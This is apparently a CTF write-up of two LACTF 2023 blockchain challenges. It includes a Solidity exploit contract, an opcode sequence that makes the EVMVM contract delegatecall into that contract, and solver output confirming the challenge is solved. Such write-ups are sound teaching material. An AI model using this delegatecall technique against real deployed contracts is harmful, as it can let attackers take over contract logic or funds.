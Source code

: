 # LACTF 20233 - Blockchain Writeups
## breakup

For this challenge, the main contract check if "You" is in `friendNames` of `Friend` contract so you need to delete the name "You" from the mapping. Solution is use the `burn` function of it since the key of "You" in the mapping is easy to get just from reading the source (call `tokenOfOwnerByIndex` with `somebodyYouUsedToKnow` address and value `0`)

My scipt: [solve.py](https://github.com/m1dm4n/CTF-WriteUp/blob/main/2023/lactf/breakup/solve.py)

## evmvm

This challenge is harder since you need to understand how the solidity work in lower level of Solidy language (like assembly). The main contract requires the sender of who ever want to solve it is its deployed contract `EVMVM`. It means that we need to make the deployed `EVMVM` contract call the function `solve` of `Setup` contract to win.

![image](https://user-images.githubusercontent.com/92845822/218942091-143e4300-bffc-4543-952e-3c46f37838dd.png)

So our target will be the "EVMVM" contract, which have a function to executes a single opcode every times we send to it. This problem leads to a thing that we cannot use the memory of contract because memory is like RAM, the function end the ram clean. This is really a pain since if we want to make a call a function of another contract, we need a calldata contains singnature of function we want to call but look at this first.

![image](https://user-images.githubusercontent.com/92845822/218943394-cb6c4195-023c-4dc8-ad29-031a31d41efd.png)

![image](https://user-images.githubusercontent.com/92845822/218943728-17b8208e-ef0e-4ec3-ba61-3135b8c2cc4e.png)

The call opcode requires the offset of calldata in memory and this offset is got from `stack`. We can save anything we want to the memory easily using `mstore` opcode but in the next calling it just disappear. I had been stuck from this step so i just do some guessing method but it didn't work because i'm still very new to blockchain. After the ctf ends, i learned that `delegatecall` is our solution. [What is DelegateCall in solidity](https://medium.com/coinmonks/delegatecall-calling-another-contract-function-in-solidity-b579f804178c)

Basicly the `delegatecall` is something like this: 

> When contract A executes delegatecall to contract B , B's code is executed. with contract A's storage, `msg.sender` and `msg.value`.

With this, we can create our malicious contract that will make a call to `Solve` contract and then make `EVMVM` contract create a `delegatecall` to our contract. Our contract:

```solidity
contract Exploit {
    address immutable setup;

    constructor(address _setup) {
        setup = _setup;
    }
    fallback() external {
        setup.call(abi.encodeWithSignature("solve()"));
    }
}
```

> `fallback` is the function that will be called when the contract don't understand the signature function of when it's empty 

The harder thing is done, other part is just stack knowledge and programming skill. My solution is:

1. Push `36` to stack because the function still have a parameter `arg` and its index is 36 in the `calldata` we send to contract (the first 4 bytes is function signature and the next 32 bytes is the `opcode` parameter)
2. Now we can use `CALLDATALOAD` opcode to push anything we want to stack from `arg` param so just push all parameters of `DELEGATECALL`: `gas, address, 0, 0, 0, 0` (Read the document of its).
3. Send the opcode of `DELEGATECALL` and we are done!

> note1: the leftmost is the highest value in stack

> note2: `address` is our deployed contract

> note3: When call a function the EVM read parameters from right to left and then call it so we will need to push in reverse order

| Opcode name | Stack  |
| :---:       | :---- |
| CALLVALUE    | 0 |
| ISZERO       | 1 |
| DUP1         | 1 1 |
| SHL          | 2 |
| DUP1         | 2 2 |
| CALLDATASIZE | 68 2 2 |
| SWAP1        | 2 68 2 |
| DIV          | 34 2 |
| ADD          | 36 |
| DUP1         | 36 36 |
| CALLDATALOAD | gas 36 |
| SWAP1        | 36 gas |
| CALLDATALOAD | `address` `gas` |
| CALLVALUE    | 0 `address` `gas` |
| CALLVALUE    | 0 0 `address` `gas` |
| CALLVALUE    | 0 0 0 `address` `gas` |
| CALLVALUE    | 0 0 0 0 `address` `gas` |

Then sending the opcode of `delegatecall` and we are done. Output:

```python
[+] Pushing delegatecall's params to stack: Done
[DEBUG] stack size: 6
[DEBUG] 0x0 : 0x00000000000000000000000000000000000000000000000000000000000186a0
[DEBUG] 0x1 : 0x0000000000000000000000007ee24f4f9d8f0d6f5321228ebb0529422b0e813a
[DEBUG] 0x2 : 0x0000000000000000000000000000000000000000000000000000000000000000
[DEBUG] 0x3 : 0x0000000000000000000000000000000000000000000000000000000000000000
[DEBUG] 0x4 : 0x0000000000000000000000000000000000000000000000000000000000000000
[DEBUG] 0x5 : 0x0000000000000000000000000000000000000000000000000000000000000000
[*] Setup.functions.isSolved().call() = True
[+] Successfully exploiting!
```

My script: [solve.py](https://github.com/m1dm4n/CTF-WriteUp/blob/main/2023/lactf/evmvm/solve.py)
